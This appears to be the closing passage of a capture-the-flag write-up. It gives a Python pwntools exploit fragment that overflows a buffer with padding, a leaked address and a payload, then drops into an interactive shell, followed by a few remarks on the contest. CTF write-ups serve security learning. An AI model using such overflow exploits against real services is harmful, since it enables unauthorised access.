 ```python
session=a
buf=session
buf+=p32(0)
buf+=p16(0x500)
buf+=b'moonlit_embrace\0'
buf+=(778-len(b'moonlit_embrace\0'))*b'A'
buf+=p64(leak)
buf+=b'A'*8
buf+=pl
io.send(buf)

pause()
session=a
buf=session
buf+=p32(0)
buf+=p16(0x100)
buf+=b'moonlit_embraceaaa'

io.send(buf)
data = io.recv()
print(data)

io.interactive()
```

### a few thin confessions 

- I spent 10 hours debugging each one
- I didn't realize the mistake while doing the test and kept spending hours thinking about it, a bit of a joke :(
- After this contest, I learned many things, and I should realize that I should not focus on one direction too much.
- See you again

